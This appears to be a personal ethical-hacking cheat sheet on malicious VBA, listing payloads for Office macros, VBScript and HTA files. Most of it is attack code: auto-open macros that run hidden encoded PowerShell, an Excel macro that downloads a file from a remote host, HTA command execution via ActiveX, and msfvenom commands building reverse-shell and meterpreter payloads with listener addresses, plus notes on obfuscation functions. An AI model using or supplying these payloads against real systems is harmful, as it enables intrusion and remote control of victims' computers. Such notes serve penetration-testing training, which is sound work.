# Useful Visual Basic for Applications

Beware these uses for VBA, if you find code like this on your computer tell a member of IT. I don't how you got here, unless you have good ethical hacking reasons in which case enjoy true horror of VBA scripts, as many as I find and explain their cool use cases.

VB script shell:
```vb
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\cmd.exe " & WScript.ScriptFullName),0,True
```
If .vbs is blacklisted run using wscript /e:VBScript with a rename to script.txt 



```vb
& ' Generates a string concatenation of two expressions.
```


## Visual Basic 4 Apps 

#### Word Macro shell:
```vb
Sub PoC()
	Dim payload As String
	payload = "cmd.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

#### HTML application:

Also known as HTA, these are dynamic html pages host with a python3 -m http.sever 1337
```html
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```


OR
```bash
reverse shell with netcat
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
```
OR 
```bash
metasploit: msfconsole -q
use exploit/windows/misc/hta_server
```

#### Excel HTA

Excel HTA macro from THM Throwback

```vb
Sub HelloWorld()
    PID = Shell("powershell.exe -c Invoke-WebRequest -Uri https://ip/passwd -OutFile C:\passwd", vbNormalFocus)
End Sub

Sub Auto_Open()
    HelloWorld
End Sub
```

#### Metasploit VBA

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=53 -f vba -o macro.vba
```

#### Encoded Payloads

```vb
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = "powershell.exe -nop -w hidden -e base64encoded"
    Str = Str + "base64encodepayloadappendstrequalstring"
  	...
	Str = Str + "endofthebase64=="

    CreateObject("Wscript.Shell").Run Str
End Sub
```

#### Analysis of bad VB

Online compilers
https://onecompiler.com/vb/
https://www.onlinegdb.com/online_vb_compiler


#### Obfuscation

[[Obfuscation-Principles]]
```vb
Chr() ' return the character associated with the specified character code.
ChrW() ' Returns the Unicode character that corresponds to the specified character code
CBool() ' convert to a boolean
Len() ' returns the number of characters in a text string.
LenB() ' returns the number of bytes used to represent the characters in a text string
Trim() ' Trims both leading and tailing string expressions
Xor() ' Performs a logical exclusion on two `Boolean` expressions, or a bitwise exclusion on two numeric expressions.

```

https://learn.microsoft.com/en-us/dotnet/visual-basic/language-reference/operators/xor-operator
https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/chr-function
https://support.microsoft.com/en-gb/office/len-lenb-functions-29236f94-cedc-429d-affd-b5e33d2c67cb
https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/ltrim-rtrim-and-trim-functions
https://learn.microsoft.com/en-us/office/vba/language/concepts/getting-started/type-conversion-functions
https://help.libreoffice.org/latest/ro/text/sbasic/shared/03120112.html

## References

